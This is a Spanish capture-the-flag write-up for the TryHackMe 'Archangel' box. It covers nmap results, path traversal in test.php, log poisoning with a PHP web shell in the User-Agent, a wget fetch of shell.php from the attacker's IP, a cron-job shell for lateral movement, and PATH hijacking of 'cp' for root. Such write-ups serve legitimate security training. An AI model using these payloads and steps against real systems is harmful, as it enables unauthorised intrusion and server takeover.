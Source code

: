 ```yaml
---
title: "Archangel Writeup - Try-Hack-Me"
date: 2024-01-11
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets/img/imagenes/Archangel.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Archangel banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web 
![img](/assets/img/imagenes/Pasted image 20231115001626.png)
Al poner el dominio, ya tenemos la primera flag.

### Fuzzing

```python
/robots.txt
/test.php
```

### Path Traversal

mirando el ``/etc/passwd`` 
![img](/assets/img/imagenes/Pasted image 20231115001838.png)

para ver los logs 

```python
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

### User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```python
<?php system($_GET['cmd']);?>
```
![img](/assets/img/imagenes/Pasted image 20231115002021.png)

Podemos ejecutar comandos mediante el parámetro ``&cmd=``

```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```
![img](/assets/img/imagenes/Pasted image 20231115002056.png)

Cargamos una shell en php mediante wget. 
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

### Shell www-data

![img](/assets/img/imagenes/Pasted image 20231115002136.png)
### movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![img](/assets/img/imagenes/Pasted image 20231115002205.png)
![img](/assets/img/imagenes/Pasted image 20231115002239.png)

### Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![img](/assets/img/imagenes/Pasted image 20231115002308.png)

![img](/assets/img/imagenes/Pasted image 20231115002336.png)
### WE ARE ROOT